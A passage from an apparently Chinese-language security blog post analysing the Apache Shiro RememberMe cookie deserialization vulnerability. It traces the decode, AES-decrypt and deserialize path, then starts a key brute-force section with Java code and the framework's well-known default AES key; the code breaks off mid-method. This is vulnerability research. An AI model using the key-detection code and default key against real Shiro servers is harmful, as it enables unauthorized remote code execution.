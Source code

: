 * 然后来到org\apache\shiro\web\mgt\CookieRememberMeManager.class#getRememberedSerializedIdentity获取cookie值之后，先判断一下是否为空和``deleteMe``，解之Base64解码最后在95行处返回byte[]值
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210122145845874.png)
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210122150020874.png)

* org\apache\shiro\mgt\AbstractRememberMeManager.class#getRememberedPrincipals方法的124行进行类型转化，类型转化的过程中会进行AES解密操作，进而作为反序列化的数据
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210122150415517.png)
* AbstractRememberMeManager.class#convertBytesToPrincipals进行AES解密操作，最后调用反序列化方法，将数据反序列化，导致反序列化漏洞
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210122150613761.png)

* AbstractRememberMeManager#decrypt方法
```java
protected byte[] decrypt(byte[] encrypted) {
        byte[] serialized = encrypted;
        CipherService cipherService = this.getCipherService();
        if (cipherService != null) {
            ByteSource byteSource = cipherService.decrypt(encrypted, this.getDecryptionCipherKey());
            serialized = byteSource.getBytes();
        }

        return serialized;
    }
```
* 查看bytes数据值，可以看到解密后是生成的恶意payload
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210122151026506.png)
* 完整的payload演示效果
![在这里插入图片描述](https://img-blog.csdnimg.cn/20210122191831440.gif)


----
# Shiro‘s key爆破方式
## 基于原生shiro框架检测方式
l1nk3r师傅的检测思路地址: https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ
关键代码：

```java

 SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
        ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream("payload"));
        obj.writeObject(simplePrincipalCollection);
        obj.close();
```
实现具体代码

```java
public static void main(String[] args) throws IOException {
        // 正确key
        String realkey = "kPH+bIxk5D2deZiIxcaaaA==";
        // 错误key
        String errorkey = "2AvVhdsgUs0FSA3SDFAdag==";
        // 序列化文件路径
        String filepath = "E:\\Soures\\JavaLearnVulnerability\\shiro\\shiro-deser\\key";

        SimplePrincipalCollection simplePrincipalCollection = new SimplePrincipalCollection();
        ObjectOutputStream obj = new ObjectOutputStream(new FileOutputStream(filepath));
        try {
            // 写入序列化数据
            obj.writeObject(simplePrincipalCollection);
            obj.close();
```